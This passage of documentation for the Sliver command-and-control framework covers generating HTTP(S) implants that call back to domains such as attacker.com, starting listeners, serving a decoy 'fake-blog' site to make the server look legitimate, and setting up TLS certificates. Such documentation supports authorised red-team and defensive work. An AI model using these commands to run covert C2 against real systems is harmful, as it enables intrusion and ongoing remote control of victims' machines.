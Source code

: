 ## Generate the Implant
#### Basic Example

```
sliver > generate --http example.com --os mac

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
```

#### Multiple Domains
You can also specify multiple domains, in the event the implant cannot connect to the first it will subsequently attempt to connect to each domain you specified in order. Subsequent attempts are made based on the `--reconnect` argument (default 60 seconds). If no attempts are successful, the implant will loop across all of the domains until `--max-errors` (default 1000) is reached, at which point the implant will terminate execution:
```
sliver > generate --http example.com,attacker.com

[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/IMPRESSED_METHANE
```

#### URL Prefixes and Other Options
Some additional options may be passed to the `--http` C2 flag such as URL path prefixes. Sliver's C2 request URLs are randomly generated as described below, however the operator may specify a path to prepend to every request's path, this can be useful when leveraging HTTP re-directors, etc. To add a URL prefix simply add a path to the domain as shown below:
```
sliver > generate --http example.com/foo/bar

[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/IMPRESSED_METHANE
```

#### Proxies
#### Proxy Configuration
#### NTLM/Kerberos Proxy Authentication
## Start the Listener
To start an HTTP listener use the `http` command, with no parameters this will start a listener on port 80 and respond to any domain (i.e., HTTP `Host:`) that comes in:
```
sliver > http
```

You can optionally restrict the listener to only respond to a specific domain using the `--domain` flag, currently each listener can only accept a single domain (but you can start any number of listeners you want):
```
sliver > http --domain example.com
```

## Static Content
Sliver can stand up a website on your HTTP(S) listener in order to make the server look more legitimate. For example, you could put a default IIS index page here and mimic a normal-looking server in case someone comes by snooping. You can manage static content using the `websites` command (see `websites --help`):
```
websites --website fake-blog --web-path / --content ./index.html add
```

To use your website with an HTTP(S) listener, specify it using `--website` when you start the listener:
```
sliver > http --website fake-blog --domain example.com
```

## SSL/TLS Certificates
By default when using the `https` listener Sliver will simply generate a random self-signed certificate. However, other options do exist. The `https` listener also supports automatic TLS certificates via Let's Encrypt, which can be enabled using the `--lets-encrypt` flag.
```
sliver > https --domain example.com --lets-encrypt
```

You can also upload your own SSL/TLS certificate/key pairs:
```
sliver > https --domain example.com --cert ./cert.pem --key ./key.pem --website fake-blog
```

## Modifying C2 Traffic
### `implant_config`
### `server_config`
# Under the Hood
### Design Goals
### Procedural HTTP C2
#### Implant-side
3. Generate a `nonce`, the nonce is equal to a random number times the `EncoderModulus` plus the encoder ID; the `EncoderModulus` is currently a hardcoded constant value, but we may generate this per-server in the future. The server does the opposite (nonce modulo `EncoderModulus`) to determine the original Encoder ID. In code this looks like:
```
nonce := (insecureRand.Intn(maxN) * EncoderModulus) + encoderID
encoderId := nonce % EncoderModulus
```

